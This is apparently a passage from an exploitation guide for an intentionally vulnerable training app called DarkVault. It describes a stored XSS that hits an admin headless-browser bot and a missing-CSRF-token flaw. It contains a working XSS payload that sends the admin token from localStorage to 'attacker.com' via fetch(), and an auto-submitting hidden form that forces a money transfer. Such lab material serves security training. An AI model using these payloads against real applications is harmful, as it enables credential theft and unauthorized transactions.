 ### 4. Headless Browser Feedback XSS

**Description**: The application uses a headless browser to automatically review user feedback. This browser runs with elevated admin privileges and its cookies/storage can be exfiltrated through XSS.

**Location**: Feedback submission endpoint and headless browser review bot in `server.js`

**Vulnerable Process**:
1. User feedback is stored without sanitization
2. A headless browser bot with system admin privileges reviews feedback every 7 minutes
3. JavaScript in the feedback fields is executed in the context of the admin browser

**How to Exploit**:
1. Submit feedback with an XSS payload in the email or message field:
   ```html
   <img src=x onerror="fetch('https://attacker.com/steal?token='+localStorage.token+'&prefs='+localStorage.adminPreferences)">
   ```
2. Wait for the headless browser bot to review the feedback (runs every 7 minutes)
3. The JavaScript will execute in the headless browser with system admin privileges
4. The payload will exfiltrate the admin token and preferences to your attacker server
5. The stolen system-level admin token can be used to access any API endpoint with full privileges

**Evidence of Exploitation**:
- Check server logs to see when the headless browser processes your feedback
- In a real-world scenario, your attacker server would receive the system admin's JWT token and sensitive data

---

## Cross-Site Request Forgery (CSRF)

### 1. Missing CSRF Tokens

**Description**: The application doesn't implement CSRF tokens, making it vulnerable to cross-site request forgery attacks.

**Location**: All form submissions in the frontend

**How to Exploit**:
1. Create a malicious HTML page (example in `public/csrf-demo.html`):
   ```html
   <form id="csrf-form" action="http://localhost:3000/api/transfer" method="POST" target="csrf-frame" class="hidden">
     <input type="hidden" name="to" value="3"> <!-- Attack transfers to Bob (ID 3) -->
     <input type="hidden" name="amount" value="500"> <!-- Amount to steal -->
     <input type="hidden" name="note" value="Thanks for the Bitcoin!">
   </form>
   <script>
     document.getElementById('csrf-form').submit();
   </script>
   ```
2. Trick a victim (who is already authenticated to DarkVault) into visiting your page
3. The form will automatically submit, performing the transfer without the user's knowledge
